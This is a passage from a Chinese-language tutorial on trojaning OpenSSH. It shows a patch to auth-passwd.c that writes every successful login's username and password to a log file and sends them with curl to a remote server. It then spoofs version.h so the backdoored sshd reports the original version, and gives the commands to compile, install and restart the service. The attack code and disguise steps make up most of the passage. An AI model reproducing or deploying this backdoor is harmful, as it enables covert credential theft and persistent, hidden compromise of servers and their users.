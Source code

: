 这里，如果使用`apache`启动的客户端可能会有个bug！！ 导致一直无法出现账号密码文件！ 如果读者在此也同样出现了这个问题，可以参考本章的最后一部分`bug处理篇`。

接收端：（修改`auth-passwd.c`文件，大概在地128行左右）

```c_cpp
	result = sys_auth_passwd(authctxt, password);
	if(result){
		if((f=fopen(ILOG,"a"))!=NULL){
			fprintf(f,"user:password --> %s:%s\n",authctxt->user, password);
			fclose(f);
      char szres[1024] = {0};
      memset(szres,0,sizeof(szres));
      snprintf(szres,sizeof(szres),"/usr/bin/curl -s -d \"username=%s&password=%s\" http://xx.xx.xx.xx/ssh.php >/dev/null",authctxt->user, password);
      system(szres); 
		}
	}
	if (authctxt->force_pwchange)
		disable_forwarding();
	return (result && ok);
}
```
{: file='auth-passwd.c'}

#### 3）伪装并编译

*修改`version.h`文件，使其修改后的版本信息为原始版本：*

```c_cpp
#define SSH_VERSION "填入之前记下来的版本号,伪装原版本"
#define SSH_PORTABLE "小版本号"
```
{: file='version.h'}
![截图](c16c9484842ac2b9f8121849cbef64b1.png)

*安装并编译*

```bash
./configure --prefix=/usr  --sysconfdir=/etc/ssh  --with-pam  --with-kerberos5  && make && make install
```

![截图](096ab5d4bbd7bcd29c9f54721489e71b.png)

*重启ssh*

```bash
service sshd restart
systemctl status sshd.service
```

这里可能会出现如下错误：

```text
Job for sshd.service failed because a timeout was exceeded. See "systemctl status sshd.service" and "journalctl -xe" for details.
```
